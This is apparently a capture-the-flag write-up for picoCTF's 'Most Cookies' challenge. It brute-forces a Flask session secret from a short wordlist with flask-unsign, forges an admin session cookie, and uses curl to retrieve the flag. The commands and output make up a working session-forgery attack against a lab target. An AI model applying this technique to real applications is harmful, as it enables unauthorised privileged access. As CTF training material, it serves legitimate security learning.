

### Most Cookies Challange 177

reproduct

```python
#server.py:6-7
cookie_names = ["snickerdoodle", "chocolate chip", "oatmeal raisin", "gingersnap", "shortbread", "peanut butter", "whoopie pie", "sugar", "molasses", "kiss", "biscotti", "butter", "spritz", "snowball", "drop", "thumbprint", "pinwheel", "wafer", "macaroon", "fortune", "crinkle", "icebox", "gingerbread", "tassie", "lebkuchen", "macaron", "black and white", "white chocolate macadamia"]
app.secret_key = random.choice(cookie_names)
```
`secret_key` will random from `cookie_names`. let's bruteforce secret key with list cookiename

so, [flask-usign](https://pypi.org/project/flask-unsign/), i will using it to modify payload of `jwt`



got auth, try to decode it using `flask-usign`

```bash
flask-unsign --decode --cookie "eyJ2ZXJ5X2F1dGgiOiJibGFuayJ9.aAiknA.E7xiS8JgWPiOLpJC3aVKScWdyrs"
{'very_auth': 'blank'}
```

Unsigning (Brute Forcing Secret Keys)

```bash
flask-unsign --unsign --cookie eyJ2ZXJ5X2F1dGgiOiJibGFuayJ9.aAiknA.E7xiS8JgWPiOLpJC3aVKScWdyrs -w cookie.txt
[*] Session decodes to: {'very_auth': 'blank'}
[*] Starting brute-forcer with 8 threads..
[+] Found secret key after 28 attemptscadamia
'gingersnap'
```
we can know `gingersnap` is scret key, let resign a new cookie with `very_auth`is `admin`

```bash
flask-unsign --sign --cookie "{'very_auth': 'admin'}" --secret 'gingersnap'
eyJ2ZXJ5X2F1dGgiOiJhZG1pbiJ9.aAipTg.rwilTTNx5bak7T9xMTy5E5cB5qk
```

try curl

```bash
curl -b "session=eyJ2ZXJ5X2F1dGgiOiJhZG1pbiJ9.aAipTg.rwilTTNx5bak7T9xMTy5E5cB5qk" http://mercury.picoctf.net:6259/
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
<title>Redirecting...</title>
<h1>Redirecting...</h1>
<p>You should be redirected automatically to target URL: <a href="/display">/display</a>.  If not click the link.
```

It's redirect to `/display`, let follow this

```bash
curl -b "session=eyJ2ZXJ5X2F1dGgiOiJhZG1pbiJ9.aAipTg.rwilTTNx5bak7T9xMTy5E5cB5qk" http://mercury.picoctf.net:6259/display
<!DOCTYPE html>
<html lang="en">
.....

        <div class="jumbotron">
            <p class="lead"></p>
            <p style="text-align:center; font-size:30px;"><b>Flag</b>: <code>picoCTF{pwn_4ll_th3_cook1E5_5f016958}</code></p>
        </div>
....
</html>
```

got flag
#### Reference

[paradoxis-flask-session-management](https://blog.paradoxis.nl/defeating-flasks-session-management-65706ba9d3ce)

